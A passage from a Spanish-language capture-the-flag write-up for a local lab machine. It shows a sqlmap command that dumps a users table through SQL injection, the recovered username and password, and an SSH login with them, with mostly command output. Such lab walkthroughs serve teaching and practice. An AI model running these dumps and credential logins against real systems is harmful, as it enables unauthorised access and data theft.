 ```bash

[20:20:43] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/home/kali/.local/share/sqlmap/output/results-09072025_0820pm.csv'

[*] ending @ 20:20:43 /2025-09-07/
```
Ya por último sería acceder a los datos de las dos columnas que hemos encontrado así que ejecutamos: 
```bash
> sqlmap -u http://172.17.0.2 --forms -D register -T users -C passwd,username --dump --batch
[20:22:38] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[20:22:38] [INFO] fetching entries of column(s) 'passwd,username' for table 'users' in database 'register'
[20:22:38] [INFO] retrieved: 'KJSDFG789FGSDF78'
[20:22:38] [INFO] retrieved: 'dylan'
Database: register
Table: users
[1 entry]
+------------------+----------+
| passwd           | username |
+------------------+----------+
| KJSDFG789FGSDF78 | dylan    |
+------------------+----------+

[20:22:38] [INFO] table 'register.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/172.17.0.2/dump/register/users.csv'
[20:22:38] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/home/kali/.local/share/sqlmap/output/results-09072025_0822pm.csv'

[*] ending @ 20:22:38 /2025-09-07/
```
* Con --dump volcamos la información de las columnas que acabamos de inyectar.

Vemos que nos ha devuelto un usuario *dylan* y una contraseña *KJSDFG789FGSDF78* así que lo probaremos en el formulario web a ver que sucede.  En este caso nos devuelve a la misma página de *http://172.17.0.2/acceso_valido_dylan.php* que hemos visto en la primera forma de resolver esta máquina así que, a partir de aquí el resto de la máquina será igual.

(------------------------------------A PARTIR DE AQUÍ, LA FORMA DE ESCALAR PRIVILEGIOS SERÁ LA MISMA------------------------------------)

Con esta información vamos a intentar logaearnos en el servicio SSH y ver si conseguimos acceso a un posible usuario *Dylan*.
```ruby
❯ ssh dylan@172.17.0.2
dylan@172.17.0.2's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.12.38+kali-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
```